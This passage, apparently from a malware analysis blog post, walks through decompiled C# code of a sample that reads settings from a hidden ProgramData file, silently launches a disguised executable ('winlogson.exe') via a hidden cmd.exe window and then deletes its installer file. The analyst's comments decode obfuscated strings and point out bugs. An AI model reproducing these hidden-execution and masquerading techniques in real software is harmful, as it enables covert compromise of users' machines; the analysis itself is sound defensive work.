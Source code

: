 ```cs
        {
            string[] array2 = File.ReadAllLines(FPath + text); // bug lol, it only opens the file at @"C:\ProgramData\SystemFiles\sys_rh.bin"
            linklol = array2[0];
            ... (same as before)
        }
        else if (File.Exists(folderPath + text))
        {
            string[] array3 = File.ReadAllLines(FPath + text); // more bug
            linklol = array3[0];
            ... (same as before)
        }
        else if (File.Exists(tempPath + text))
        {
            string[] array4 = File.ReadAllLines(FPath + text); // even more bug
            linklol = array4[0];
            ... (same as before)
        }
    }
    catch
    {
    }
}
```

Each line from `sys_rh.bin` is set to a variable, although they aren't decrypted here. That's actually done later on. Judging from the names of each variable, we are definitely interested in them. Next import method called by our `Galileo()` constructor is `MNStart()`.

```cs
public static void MNstart()
{
    string text = <Module>.smethod_3<string>(3486648620u); // "msi.bin"
    MakeMinConfig.MakeInst(mark);
    Thread.Sleep(1000);
    Process.Start(new ProcessStartInfo(<Module>.smethod_2<string>(2169055733u)) // "cmd.exe"
    {
        Arguments = lineoptions, // @" /c chcp 1251 & C:\ProgramData\Dllhost\winlogson.exe -c config.json"
        WorkingDirectory = FPath, // @"C:\ProgramData\SystemFiles\"
        UseShellExecute = false,
        CreateNoWindow = true,
        WindowStyle = ProcessWindowStyle.Hidden
    });
    Thread.Sleep(200);
    Thread.Sleep(3000);
    if (File.Exists(FPath + text))
    {
        try
        {
            File.Delete(FPath + text);
        }
        catch
        {
        }
    }
}
```
